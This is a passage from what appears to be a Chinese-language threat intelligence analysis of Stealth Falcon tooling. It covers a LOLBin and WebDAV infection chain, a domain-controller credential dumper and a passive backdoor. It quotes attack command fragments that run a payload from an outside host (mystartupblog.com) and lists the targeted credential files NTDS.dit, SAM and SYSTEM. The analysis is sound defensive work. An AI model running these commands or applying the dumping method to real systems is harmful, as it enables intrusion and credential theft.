   
  
DeviceCredentialDeployment.exe 是一个 已知的 LOLBin，用于隐藏 CMD 窗口，因此它在后台运行：  
- cmd /V:ON /C 启用延迟环境变量扩展并运行以下命令。  
  
- set EDITOR=chttpim 将环境变量的 EDITOR 值设置为 chttpim。该值很可能稍后会在攻击者的脚本中使用。  
  
- pushd \\mystartupblog.com@ssl@443\eQwcvcZIy 将当前目录更改为网络位置 \\mystartupblog.com@ssl@443\eQwcvcZIy  
  
- start /B https://mystartupblog.com/ePkNWY/deUsplnb.pdf 在后台默认浏览器中打开诱饵 URL（/B 标志）。遗憾的是，我们发现该文件时，PDF 版本不可用。  
  
- Forfiles 是另一个 LOLBin，  如果条件匹配， 则执行命令/p c:\windows。在本例中 ，指定了查找特定文件的路径，并 /m notepad.exe 指定了具体文件。  
  
- /c \\mystartupblog.com@ssl@443\eQwcvcZIy\Supplier0.8bps 指定要执行的命令（因为 notepad.exe 总是会在 中找到 c:\windows)。该文件不可用，但我们假设它是一个提供下一阶段的脚本，并使用先前设置的 EDITOR 环境变量。  
  
- popd 返回 后的上一个目录 pushd。  
  
这个案例是另一个值得注意的例子，说明威胁行为者如何将多个 LOLBins 组合在一个依赖 WebDAV 的感染链中。  
  
入侵后工具集  
  
除了 Deadglyph的磁盘组件（其中大多数受 Themida/OLLVM 或两者保护）之外，我们最近还观察到一些与 Stealth Falcon 活动相关的、此前未记录的工具。在本节中，我们将对我们认为最有趣的工具进行分析。  
  
DC 凭证转储器  
  
该组件由类似Horus的加载器部署。它使用Code Visualizer进行混淆，并手动映射 kernel32.dll 和 ntdll.dll注入， C:\Windows\System32\UserAccessBroker.exe将shellcode映射到进程中，然后执行。  
  
该工具相对简单，但它围绕一个有趣的概念构建：通过访问系统磁盘的 VHD 副本来窃取 Active Directory 和域控制器凭据相关文件，从而有效地绕过文件锁和标准安全保护。  
  
该凭证转储程序似乎旨在与另一个组件（我们尚未观察到）协同工作。它似乎以一个已被攻陷的域控制器为目标，依赖一个单独的模块在路径 处创建虚拟磁盘副本 C:\ProgramData\ds_notifier_0.vhdx。其 ds_notifier 命名约定模仿了合法趋势科技组件的命名约定。  
  
该转储程序专门针对以下文件：  
- Windows\NTDS\NTDS.dit  
  
- Windows\System32\Config\SAM  
  
- Windows\System32\Config\SYSTEM  
  
这些文件组合在一起后，攻击者可以提取、解密并滥用凭证——无论是离线攻击还是用于实时攻击。由于这些文件被系统进程主动使用和锁定，该工具可以通过在虚拟磁盘上操作来绕过这些限制。  
  
为了实现此目的，转储程序使用开源 .NET 库 DiscUtils 直接从 VHD（C:\ProgramData\ds_notifier_0.vhdx）读取并提取目标文件。然后，它使用 Gzip 压缩每个文件：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48tafQoxRH2H6ico44FhKibcbnuAA7hVIa4AicUy1msJrIxYDY5Vavg1Sg8STORH3HtRY3JgkjONwGOic1nQ/640?wx_fmt=webp&from=appmsg "")  
  
图 24 – 使用 DiscUtills 库从虚拟磁盘读取文件。  
  
提取后，该工具将所有输出文件捆绑到一个压缩的 ZIP 文件中，并保存为 C:\ProgramData\ds_notifier_2.vif.  
  
值得注意的是，该凭证转储程序不包含任何 C2 或泄露机制，并且可能依赖于其他组件来检索或泄露生成的档案。  
  
该工具还包含一个由加密字节标志控制的日志记录功能。如果此标志设置为 1，则该工具会创建日志并将其写入 %temp%\logfile.log。  
  
被动后门  
  
名为被动后门的样本 usrprofscc.exe 是一个用 C 语言编写的微型应用程序。其主要目的是监听传入的请求并从中执行 shellcode 有效负载。  
  
后门基本上没有被混淆，除了一些字符串加密使用基于所有字符串共享的单个密钥的简单算法，该算法在字符串中的字符和密钥中的字符之间应用加法运算：  
  